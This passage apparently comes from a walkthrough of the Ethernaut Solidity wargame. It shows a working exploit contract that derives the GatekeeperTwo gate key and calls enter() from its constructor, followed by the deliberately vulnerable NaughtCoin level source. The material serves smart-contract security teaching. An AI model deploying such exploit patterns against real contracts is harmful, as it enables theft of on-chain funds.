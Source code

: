       interface IGatekeeperTwo {
          function enter(bytes8 _gateKey) external returns(bool);
      }
      
      contract attack {
      
          constructor() {
              IGatekeeperTwo target = IGatekeeperTwo(0x8c080F851d6aa4A885fDcfAAC3e13d55FA4BbBa1);
      
              bytes8 key;
              key = bytes8(uint64(bytes8(keccak256(abi.encodePacked(address(this))))) ^ type(uint64).max);
      
              target.enter(key);
          }
      }
      ```

16.   **Naught Coin**

      ```solidity
      // SPDX-License-Identifier: MIT
      pragma solidity ^0.8.0;
      
      import 'openzeppelin-contracts-08/token/ERC20/ERC20.sol';
      
      //is 是继承
       contract NaughtCoin is ERC20 {
      
        // string public constant name = 'NaughtCoin';
        // string public constant symbol = '0x0';
        // uint public constant decimals = 18;
        uint public timeLock = block.timestamp + 10 * 365 days;
        uint256 public INITIAL_SUPPLY;
        address public player;
      
        constructor(address _player) 
        ERC20('NaughtCoin', '0x0') {
          player = _player;
          INITIAL_SUPPLY = 1000000 * (10**uint256(decimals()));
          // _totalSupply = INITIAL_SUPPLY;
          // _balances[player] = INITIAL_SUPPLY;
          _mint(player, INITIAL_SUPPLY);
          emit Transfer(address(0), player, INITIAL_SUPPLY);
        }
        
        function transfer(address _to, uint256 _value) override public lockTokens returns(bool) {
          super.transfer(_to, _value);
        }
      
        // Prevent the initial owner from transferring tokens until the timelock has passed
        modifier lockTokens() {
          if (msg.sender == player) {
            require(block.timestamp > timeLock);
            _;
          } else {
           _;
          }
        } 
      } 
      ```
